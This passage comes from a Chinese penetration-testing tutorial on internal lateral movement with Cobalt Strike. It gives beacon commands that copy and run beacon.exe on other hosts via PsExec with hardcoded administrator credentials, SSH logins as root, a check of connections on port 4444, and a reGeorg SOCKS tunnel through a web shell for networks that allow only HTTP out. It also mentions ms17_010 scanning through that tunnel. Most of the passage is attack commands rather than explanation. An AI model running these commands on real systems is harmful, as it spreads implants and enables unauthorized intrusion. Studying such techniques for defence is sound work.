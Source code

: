 ```
beacon> shell C:\WINDOWS\Temp\PsExec.exe -accepteula \\192.168.144.155,192.168.144.196 -u administrator -p admin@123 -d -c C:\WINDOWS\Temp\beacon.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbPY9y4jbZeI4VZEeKZ7TCXicNArJM4bdrKyPVyjks54yOxTqAj8sCQibQ/640?wx_fmt=png)

```
beacon> shell netstat -ano |findstr 4444
```

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbGybmUN5zdUoAPX5QvJ4jib757fVXxubaSJgwnQyz4d9KWr5Ant0erhA/640?wx_fmt=jpeg)

##### SSH Login

| 

 | 

```
beacon> ssh 192.168.144.174:22 root admin
```

 |
| 

 | 

```
beacon> ssh 192.168.144.203:22 root admin
```

 |

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0Wb7sThlzMzWZHrprfc9EaGXR3icqbWjcMMXgvJJEpiafTakHryJmGnv1bQ/640?wx_fmt=jpeg)

在 Linux 目标机中查看网络连接状态，实际是与之前已上线的 Windows 主机建立的连接。

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbH6cV4NLoffnrHOovYTtjbhQt43hzLcRnet8FrVTI8arZcSH8FMG3jg/640?wx_fmt=jpeg)

目标不出网（http 代理）
--------------

目标机网络中可能有防火墙、网闸等，只允许 http 单向出，无法正常访问互联网，用上述 socks 方法是行不通的，只能用 http 代理进行渗透。

### reGeorg (socks5)

```
python reGeorgSocksProxy.py -u http://192.168.144.211/tunnel.aspx -l 0.0.0.0 -p 10080
```

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbiaLUwNdSPWZ77qIicwn1EYDRDoeUaJUkTpbRTBlAXYN5JzCDkuicwkyNw/640?wx_fmt=jpeg)

利用 metasploit 挂 reGeorg socks 代理，扫描 ms17_010 传输的数据包，明显可辨别攻击行为。
